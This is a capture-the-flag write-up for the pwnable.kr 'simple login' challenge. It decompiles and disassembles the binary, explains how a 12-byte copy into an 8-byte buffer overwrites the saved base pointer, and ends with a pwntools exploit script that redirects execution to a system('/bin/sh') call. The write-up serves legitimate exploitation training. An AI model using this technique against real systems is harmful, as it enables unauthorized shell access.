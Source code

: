 When exploiting a binary I always like to first play around with it
to get a general idea of what I am dealing with.
(Whether you run it on the server or in a VM it doesn't matter
just please don't run random binaries outside an isolated environment):

```
❯ nc pwnable.kr 9003
Authenticate : secret_key
hash : f88e77140e9e6d52cb34c1c1f6a61869
```

Ok, so, at first glance we can surmise that the program hashes a password and outputs the hash on the screen.
Now let's start with the actual analysis:

```
❯ file slogin
slogin: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=e09ec7145440153c4b3dedc3c7a8e328d9be6b55, not stripped
```

We are working with a 32-bit **statically linked** binary.
Let's decompile the main function (using Ghidra, IDA,or whatever software you prefer really)
and see what it does:

```c
int main(void)

{
  void *decoded_str;
  char buf [30];
  uint decoded_len;

  memset(buf,0,0x1e);
  setvbuf((FILE *)stdout,(char *)0x0,2,0);
  setvbuf((FILE *)stdin,(char *)0x0,1,0);
  printf("Authenticate : ");
  __isoc99_scanf(&DAT_080da6b5,buf);
  memset(&input,0,0xc);
  decoded_str = (void *)0x0;
  decoded_len = Base64Decode(buf,&decoded_str);
  if (decoded_len < 0xd) {
    memcpy(&input,decoded_str,decoded_len);
    if (auth(decoded_len) == 1) {
      correct();
    }
  }
  else {
    puts("Wrong Length");
  }
  return 0;
}
```
I renamed the variables to make it look clearer.
Since the `scanf` function deals with input it immediately struck me as a potential target.
Unfortunately dereferencing the address of the format string (`0x080da6b5`) in GDB yields: `"%30s"`.
This means that `scanf` will take up to 30 bytes of input which is the exact size of the buffer we pass it,
thus we can not take advantage of a buffer overflow here.

Getting back to the rest of the code we notice the `Base64Decode` function that was also present in the md5 calculator challenge.
It signals that our input is assumed to be encoded in Base64. Additionally, to get pass the `if` statement
we would also need the decoded input to be at most 12 bytes in length.
Now let's look at `auth`.
```c
bool auth(size_t len)

{
  char buf1 [8];
  char *hash;
  char buf2 [8];

  memcpy(buf2,&input,len);
  hash = (char *)calc_md5(buf1,0xc);
  printf("hash : %s\n",hash);
  return strcmp("f87cd601aa7fedca99018a8be88eda34",hash) == 0;
}
```

We copy the decoded input into `buf2` (red flag: the decoded input can be up to 12 bytes long).
Then we hash the uninitialized `buf1` passing an invalid length argument?

When I first observed this I decided to run a little experiment to see whether the program was really
not hashing the user input:

```
❯ nc pwnable.kr 9003
Authenticate : AAAA
hash : 7968e02c61740a950a91500784fc81a1


❯ nc pwnable.kr 9003
Authenticate : AAAA
hash : 92308a678245d143ee332311edaeb300
```

As you can see this indeed is the case since it prints different hashes for the same input.
To understand and exploit the apparent bug in the `auth` function we should look at the disassembly:

```
❯ objdump --disassemble=auth -Mintel slogin

0804929c <auth>:
 804929c:	55                   	push   ebp
 804929d:	89 e5                	mov    ebp,esp
 804929f:	83 ec 28             	sub    esp,0x28
 80492a2:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 80492a5:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80492a9:	c7 44 24 04 40 eb 11 	mov    DWORD PTR [esp+0x4],0x811eb40
 80492b0:	08
 80492b1:	8d 45 ec             	lea    eax,[ebp-0x14]
 80492b4:	83 c0 0c             	add    eax,0xc
 80492b7:	89 04 24             	mov    DWORD PTR [esp],eax
 80492ba:	e8 a1 03 02 00       	call   8069660 <memcpy>
 80492bf:	c7 44 24 04 0c 00 00 	mov    DWORD PTR [esp+0x4],0xc
 80492c6:	00
 80492c7:	8d 45 ec             	lea    eax,[ebp-0x14]
 80492ca:	89 04 24             	mov    DWORD PTR [esp],eax
 80492cd:	e8 b6 fe ff ff       	call   8049188 <calc_md5>
 80492d2:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
 80492d5:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80492d8:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 80492dc:	c7 04 24 77 a6 0d 08 	mov    DWORD PTR [esp],0x80da677
 80492e3:	e8 48 23 01 00       	call   805b630 <_IO_printf>
 80492e8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80492eb:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 80492ef:	c7 04 24 84 a6 0d 08 	mov    DWORD PTR [esp],0x80da684
 80492f6:	e8 f5 ef ff ff       	call   80482f0 <.plt+0xf0>
 80492fb:	85 c0                	test   eax,eax
 80492fd:	75 07                	jne    8049306 <auth+0x6a>
 80492ff:	b8 01 00 00 00       	mov    eax,0x1
 8049304:	eb 05                	jmp    804930b <auth+0x6f>
 8049306:	b8 00 00 00 00       	mov    eax,0x0
 804930b:	c9                   	leave
 804930c:	c3                   	ret
```
Observe that the pointer we pass to `memcpy` is actually `$ebp-0x14+0xc = $ebp-8`.
Given that the decoded input can be up to 12 bytes in length this means
we can overwrite the address holding the old base pointer.
Considering that the instruction pointer is fetched from the dereferenced `$ebp + 4`
we can find a target for `$eip` and overwrite the old base pointer to point four bytes before the address of that target like so:

```
decoded_input:
b'AAAA' + addr_of(malicious_code) + addr_of(decoded_input)
```

This assures that after we pop into `$ebp` twice(via the `ret` instruction) execution will continue
in `malicious_code`. What's left to figure out is what the malicious code will be?
We could directly jump to `system` but this would be tricky since `system` requires a string pointer as an argument
(which means we have to assure that a pointer to such string is stored at `$esp+4` when we return to `system`,
in other words this is highly unpleasant business).
Instead we notice that in the `correct` function we already have a gadget which sets up `'/bin/sh'` as an argument
and calls system. We can simply jump to that gadget.

```c
void correct(void)

{
  if (input == -0x21524111) {
    puts("Congratulation! you are good!");
    system("/bin/sh");
  }
  exit(0);
}

0804925f <correct>:
 804925f:	55                   	push   ebp
 8049260:	89 e5                	mov    ebp,esp
 8049262:	83 ec 28             	sub    esp,0x28
 8049265:	c7 45 f4 40 eb 11 08 	mov    DWORD PTR [ebp-0xc],0x811eb40
 804926c:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 804926f:	8b 00                	mov    eax,DWORD PTR [eax]
 8049271:	3d ef be ad de       	cmp    eax,0xdeadbeef
 8049276:	75 18                	jne    8049290 <correct+0x31>
 8049278:	c7 04 24 51 a6 0d 08 	mov    DWORD PTR [esp],0x80da651
 804927f:	e8 4c 30 01 00       	call   805c2d0 <_IO_puts>
 8049284:	c7 04 24 6f a6 0d 08 	mov    DWORD PTR [esp],0x80da66f  <--- here is the gadget.
 804928b:	e8 20 20 01 00       	call   805b2b0 <__libc_system>
 8049290:	c7 04 24 00 00 00 00 	mov    DWORD PTR [esp],0x0
 8049297:	e8 04 14 01 00       	call   805a6a0 <exit>
```

This leaves us with the final exploit:

```python
from pwn import *

elf = ELF('./slogin')
decoded_input = elf.symbols['input']
system_gadget = 0x8049284

payload = b64e(b'junk' + p32(system_gadget) + p32(decoded_input))
proc = remote('pwnable.kr', port=9003)
proc.sendline(payload)
proc.interactive()
proc.close()
```

